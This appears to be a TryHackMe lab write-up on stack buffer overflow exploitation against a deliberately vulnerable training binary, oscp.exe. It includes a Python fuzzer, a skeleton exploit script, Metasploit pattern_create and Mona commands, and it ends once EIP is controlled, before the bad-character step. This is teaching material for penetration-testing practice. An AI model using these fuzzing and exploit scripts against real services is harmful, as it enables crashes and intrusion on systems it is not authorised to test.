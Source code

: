 # Buffer Overflow Prep
* Win7 VM with Immunity Debugger and PuTTY installed.
* Login over RDP using xfreerdp.
```
xfreerdp /u:admin /p:password /cert:ignore /v:TARGET_IP /workarea
```
* Choose "Home" option if Windows prompts for network location.
* [Exploiting buffer overflows cheat sheet](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst)
## "oscp.exe" Overflow
* Right-click "Immunity Debugger" > "Run as administrator".
  
![image](https://github.com/clydebuilt1974/TryHackMe/assets/157394432/7397a66c-46cc-4cc5-8446-223595d3fb85)

* "File" > "Open" > navigate to "vulnerable-apps" folder > "oscp" folder > "oscp.exe" > "Open".
* "Debug" > "Run".
* oscp.exe binary runs in terminal window.
  
![image](https://github.com/clydebuilt1974/TryHackMe/assets/157394432/ea00975e-21b2-4bea-915c-f1631601fed0)
* Connect to port 1337 using netcat on attack host.
```
nc TARGET_IP 1337
Welcome to OSCP Vulnerable Server! Enter HELP for help.
HELP
Valid Commands:
HELP
OVERFLOW1 [value]
OVERFLOW2 [value]
OVERFLOW3 [value]
OVERFLOW4 [value]
OVERFLOW5 [value]
OVERFLOW6 [value]
OVERFLOW7 [value]
OVERFLOW8 [value]
OVERFLOW9 [value]
OVERFLOW10 [value]
EXIT
```
* Choose "OVERFLOW 1 test".
```
OVERFLOW1 test
OVERFLOW1 COMPLETE
```
* Terminate netcat connection.
### Mona Configuration
* Configure Mona working folder.
* Run command in input box at bottom of Immunity Debugger window.
```
!mona config -set workingfolder c:\mona\%p
```

![image](https://github.com/clydebuilt1974/TryHackMe/assets/157394432/7fc8e531-7e2a-4cac-9cc7-7d455c5306f5)
### Fuzzing
* Create "fuzzer.py" file on attack host.
```
#!/usr/bin/env python3

import socket, time, sys

ip = "TARGET_IP"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```
* Run script using pthon.
```
python3 fuzzer.py
```
* Script sends increasingly long strings comprised of As.
* Fuzzer exits with error message if it crashes target host with one of the strings.
* Note largest number of bytes that were sent.
  * Fuzzing with 1900 bytes succeeded.
  * Fuzzing crashed at 2000 bytes.

### Crash Replication and Controlling EIP
* Create "exploit.py" file on attack host.
```
import socket

ip = "TARGET_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```
* Generate cyclic pattern of length 400 bytes longer than string that crashed the server.
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400
```
  * `-l` value specifes number of bytes.
* Place output into "payload "variable of "exploit.py" script.
* Re-open "oscp.exe" binary in Immunity Debugger on target host > click red play icon to run it.

![image](https://github.com/clydebuilt1974/TryHackMe/assets/157394432/6e9f3fb9-ac68-4da9-a0a7-51b8b8ae024b)

* Run modified "exploit.py" script on attack host.
```
python3 exploit.py
Sending evil buffer...
Done!
```
* Script crashes oscp server.
* Run mona command in Immunity Debugger command input box.
```
!mona findmsp -distance 2400
```
  * `-distance` is length of cyclic pattern.

![image](https://github.com/clydebuilt1974/TryHackMe/assets/157394432/0d739081-4f54-4c4e-a326-f9ad77a6689d)

* Output displays EIP offset.
```
EIP contains normal pattern : 0x6f43396e (offset 1978)
```
* Update "exploit.py" script.
  * Set "offset" variable to 1978.
  * Set "payload" variable to empty string.
  * Set "retn" variable to "BBBB".
* Re-open "oscp.exe" binary in Immunity Debugger on target host > click red play icon to run it.
* Run modified "exploit.py" script.
* EIP register now overwrittedn with the 4 Bs - hex 42424242.

### Finding Bad Characters
* 
